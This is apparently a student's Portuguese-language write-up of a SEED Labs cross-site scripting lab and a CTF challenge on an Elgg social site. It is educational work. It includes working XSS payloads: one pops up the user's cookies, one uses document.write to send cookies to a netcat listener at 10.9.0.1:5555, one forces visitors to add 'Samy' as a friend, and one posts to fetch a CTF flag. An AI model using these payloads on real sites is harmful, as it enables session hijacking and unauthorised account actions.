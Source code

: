 # Trabalho realizado na Semana #10

## Tarefa 1
Efetuou-se o *log in* na plataforma http://www.seed-server.com sob o perfil de Alice forncido. Para efetuar o XSS, alterou-se a secção *Brief Description* para o código indicado. 

![/imgs10/brief.png](/imgs10/brief.png)

Imediamente após o guardar das alterações, como esperado, obteve-se o *pop-up*:

![/imgs10/popup.png](/imgs10/popup.png)

Experimentou-se também com o exemplo usando um *form* e apesar de apenas se usar um *link* exemplificativo, pode comprovar-se que efetivamente funcionaria: 

![/imgs10/withForm.png](/imgs10/withForm.png)

## Tarefa 2

Alterou-se novamente a secção *Brief Description* desta vez para:
```html
<script>alert(document.cookie);</script>
```

Como resultado, surgiu o *pop up* com as *cookies* do utilizador mal as alterações foram guardadas.

![/imgs10/cookies.png](/imgs10/cookies.png)

## Tarefa 3

Inicialmente, na *shell*, correu-se o seguinte comando por forma a iniciar o servidor TCP:
```sh
nc -lknv 5555
```

Seguidamente mudou-se *Brief Description* para efetuar o ataque:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>
```

Após guardar as alterações no perfil, verificou-se a chegada das *cookies* do utilizador autenticado, neste caso, da Alice ao terminal onde se tinha iniciado o servidor.

![/imgs10/cookiesAlice.png](/imgs10/cookiesAlice.png)

Por forma a melhor testar a solução encontrada, efetuou-se a autenticação de Boby e acedeu-se ao perfil de Alice.

Sem surpresa, chegou ao terminal as cookies de Boby.

![/imgs10/cookiesBoby.png](/imgs10/cookiesBoby.png)


## Tarefa 4

Por forma a perceber como executar o ataque, foi necessário compreender como funciona o mecanismo de adicionar um amigo. Com a ferramenta *HTTP Header Live* detetaram-se pedidos deste género a cada novo amigo:

![/imgs10/amizadeAliceBob.png](/imgs10/amizadeAliceBob.png)

Com a repetição de pedidos percebeu-se que a variável *friend* era igual a um identificador para a pessoa que se queria adicionar como amiga. Por outro lado, a restante parte do *link* era constituída pela sequência *ts*, *token*, *ts* e *token* que são calculados no *script* fornecido. Como tal, bastava modificar o script para:

```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

e colocá-lo na secção *About me* do perfil do Samy. 

Como espectável, iniciando sessão como outro utilizador e visitanto o perfil de *Samy* este é adicionado como amigo,

![/imgs10/sammyFriend.png](/imgs10/sammyFriend.png)


### Questão 1

Em Elgg, as todas as ações requerem *tokens* CSRF (por questões de segurança) que, por vezes, têm de ser gerados manualmente. As linhas 1 e 2 são a geração destes *tokens*. Mais informações sobre estes *tokens* podem ser vistas no seguinte link: http://learn.elgg.org/en/stable/guides/actions.html#security

### Questão 2

Se apenas fosse usado *Editor Mode*, o texto inserido teria os seus carateres especiais como "<" e ">" codificados como se mostra abaixo:

![/imgs10/editorMode.png](/imgs10/editorMode.png)

Desta forma, o código não seria reconhecido como *script* e, logo, não seria possível corrê-lo.

## CTF - Desafio 1
O enunciado sugere que se procurem fragilidades no formulário de submissão. 

Tentou-se *SQLInjection* sem sucesso. Com mais sucesso, ao colocar: 
```html
<script>alert("hello");</script>
```

surgiu no ecrã :

![/imgs10/alert.png](/imgs10/alert.png)

Pode-se assim concluir que o *site* é vulnerável a *XSS*.

Surgiu assim a questão de que código injetar. Reparou-se num botão muito sugestivo *Give the flag*.

Desta forma tentou-se replicar o comportamento deste botão em *JavaScript*. 

Assim, injetou-se o seguinte código no formulário: 

```html
<script>
getFlag = function () {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("POST", "");
    xmlHttp.send("giveflag");
    return xmlHttp.responseText;
};
console.log(getFlag());
</script>
```

Inicialmente, nada surgiu, mas, mal o pedido foi avaliado, a *flag* surgiu no ecrã:

![/imgs10/flag1.png](/imgs10/flag1.png)


## CTF - Desafio 2